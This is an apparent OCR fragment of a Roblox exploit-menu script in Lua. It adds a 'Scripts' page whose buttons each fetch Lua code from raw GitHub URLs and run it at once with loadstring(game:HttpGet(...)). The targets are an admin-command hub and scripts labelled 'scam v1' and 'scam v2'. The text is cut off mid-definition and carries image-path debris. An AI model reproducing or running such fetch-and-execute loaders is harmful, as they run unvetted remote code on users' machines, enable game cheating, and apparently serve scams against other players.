                                                                                                                                                                                                                                                                     end
                                                                                                                                                                                                                                                                end)

                                                                                                                                                                                                            local FirstPage = MainUI.AddPage("Scripts")
                                                                                                                                                                                                            FirstPage.AddButton("inf yeld", function()
                                                                                                                                                                                                            loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
                                                                                                                                                                                                            end)

                                                                                                                                                                                                            FirstPage.AddButton("scam v1", function()
                                                                                                                                                                                                             loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
                                                                                                                                                                                                            end)

                                                                                                                                                                                                            FirstPage.AddButton("scam v2", function()